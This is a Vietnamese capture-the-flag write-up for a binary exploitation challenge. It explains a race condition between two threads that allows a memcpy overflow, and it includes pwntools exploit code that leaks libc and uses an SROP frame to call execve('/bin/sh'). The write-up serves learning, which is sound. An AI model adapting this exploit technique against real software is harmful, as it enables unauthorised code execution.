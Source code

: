 **1. Find Bug**
 a, Xem qua chương trình bằng ida
  - ![image](https://user-images.githubusercontent.com/113702087/214768349-f4253b21-1fa8-4470-a735-24fb37c61be3.png)
  - main:
    + chương trình tạo 1 addr bằng shmat, phân vùng địa chỉ là libc
    + đồng thời start 2 thread start_routine(s) và notes(s) chung 1 arg
  - start_routine
  - ![image](https://user-images.githubusercontent.com/113702087/214768955-a3c8256b-e650-422b-8932-ae6334fb532f.png)
  - khi arr[28] = 0 thì start_routine gần như vô hại. Nhưng ta có thể thấy ở bên dưới
  - check
  - ![image](https://user-images.githubusercontent.com/113702087/214768978-25087f51-149c-4427-a984-8e0508da97fd.png)
  - hàm này thực thi memcpy, nếu như ta control được size có thể gây ra lỗi overflow
  - notes
  - ![image](https://user-images.githubusercontent.com/113702087/214769377-c7b814e9-be59-40b4-8ec4-6041e41de01c.png)
  - trong notes có vẻ có nhiều hàm nhưng tôi chỉ quan tâm đến store, upgrade và print
  - store
  - ![image](https://user-images.githubusercontent.com/113702087/214769455-4660bda7-6d07-4f83-b02a-a35592f23be1.png)
  - tại đây arr[28] được set bằng 1, do đó check sẽ được thực thi
 b, Debug
  - đặt bp tại memcpy đễ dễ quan sát
  - ![image](https://user-images.githubusercontent.com/113702087/214771089-7437f6ae-78c7-4c39-8606-f7b078851163.png)
  - có vẻ như khi size > 64 thì chương trình sẽ exit
  - ![image](https://user-images.githubusercontent.com/113702087/214771162-71aea37f-7539-4556-9e5f-f9c4b99e87f1.png)
  - ![image](https://user-images.githubusercontent.com/113702087/214771272-e9c5f2b3-5e7c-4ddc-816d-e2ddbd6e24bd.png)
  - vì là 2 thread chạy độc lập nhau và check được thực thi khi notes được nhập xong
  - do đó tôi đã thực thi store 1 lần nữa sau 2 giây để xem kết quả như nào
  - ![image](https://user-images.githubusercontent.com/113702087/214772013-98b94933-df2d-4fd6-9bb2-8924c94fd47e.png)
  - ![image](https://user-images.githubusercontent.com/113702087/214772062-d5c03284-8826-448a-84c2-96b23e5e7cb5.png)
  - và đây là kết quả sau 2 lần nhập
  - ![image](https://user-images.githubusercontent.com/113702087/214772095-f1797e73-84f9-4c6d-8430-97636403537b.png)
  - vậy là tôi có thể control được savedrip rồi và thực thi srop execve('/bin/sh', 0, 0)

**2. Exploit
 ```
 binsh_off = 0x274251
libc_off = 0x270041
    
payload = b'/bin/sh\x00' + b'a'*56
store(0, b'chino', 64, payload)

# upgrade
r.recvuntil(b'Sent!\n')
sleep(3)
r.sendline(b'4')
r.sendline(b'5000')
r.send(b'chino')

# leak libc
delandshow(3, 0)
out = r.recvuntil(b'\x7f')
print(out)
size = len(out)
libc_leak = out[size-6:size]
libc = u64(libc_leak + b'\x00'*2)
print(hex(libc))
libc_base = libc - libc_off
binsh = libc - binsh_off
print(hex(libc_base))
print(hex(binsh))
 ```
 - Đầu tiên tôi sẽ leak libc vì địa chỉ cấp phát trên ở libc và ghi chuỗi /bin/sh cũng như có địa chỉ của nó
 - tạo 1 note bằng store rồi đợi tâm 3s dùng upgrade để chỉnh lại size thành 5000 rồi in ra
 - ![image](https://user-images.githubusercontent.com/113702087/214776413-40ff9549-f9de-4abf-a109-7f13163dd28f.png)
 - nó được cấp phát tại 0x00007ffff7ffa000 và sẽ in ra các địa chỉ libc trong ld
 ```
 store(0, b'chino', 64, payload)
sleep(2)
payload += b'a'*8 + p64(pop_rdi) + p64(0xf) + p64(exe.sym['syscall'])

frame = SigreturnFrame()
frame.rax = 0x3b
frame.rdi = binsh
frame.rsi = 0x0
frame.rdx = 0x0
frame.rip = syscall
payload += bytes(frame)
store(0, b'chino', 0x1000, payload)
 ```
 - tạo lại 1 notes nhằm thực thi check 1 lần nữa, rồi đợi 2s để pass qua if rồi gửi lại notes có SROP
 - get shell
 - ![image](https://user-images.githubusercontent.com/113702087/214777198-3eb2890b-52e1-49c2-8f06-acda049564b8.png)
 - bài này chưa down libc về nên sài libc trong máy :>
